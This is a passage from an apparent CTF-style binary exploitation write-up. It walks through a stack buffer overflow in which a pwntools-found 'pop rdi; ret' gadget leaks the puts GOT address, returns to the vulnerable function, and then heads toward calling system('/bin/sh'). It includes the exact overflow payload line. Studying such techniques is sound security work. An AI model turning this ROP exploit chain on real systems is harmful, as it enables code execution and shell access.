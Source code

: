 ```assembly
    puts(0x601018);
  4007e7:	bf 18 10 60 00       	mov    $0x601018,%edi
  4007ec:	e8 5f fd ff ff       	callq  400550 <puts@plt>
  4007f1:	b8 00 00 00 00       	mov    $0x0,%eax
```

Here `puts` use `rdi` to pass argument, so we need a gadget which can modify `rdi`. Here we use pwntools to find one

```python
gadget_pop_rdi_ret = (binary_gadgets.find_gadget(['pop rdi', 'ret']))[0]
```

As the stack structure drawn below:

```
High Addr
                                                         puts
                                                  /                 \
                                gadget           +-------------------+
                              /        \         |   RetAddr: hear   |
                             +----------+<-rsp2  +-------------------+<- rbp1=rsp2
                             |   puts   |        |                   |
         hear                +----------+<-rsp1  +-------------------+
 /                 \         | puts_got |        |                   |
+-------------------+<-rbp0  +----------+<-rsp0  |      ......       |
|  RetAddr: gadget  |         \        /         |                   |
+-------------------+
|                   |
+-------------------+
|                   |
|   buffer[0:256]   |
|                   |
+-------------------+
 \                 /
Low Addr
```

We can figure out the payload based on this:

```python
conn.sendline(b"\0" * (256 + 8) + p64(gadget_pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(hear_addr))
```

### Step2 - invoke system

The interface of system is defined as follows:

```c
int system(const char *command);
```

What we need is to use it to invoke shell;

```c
system("/bin/sh");
```
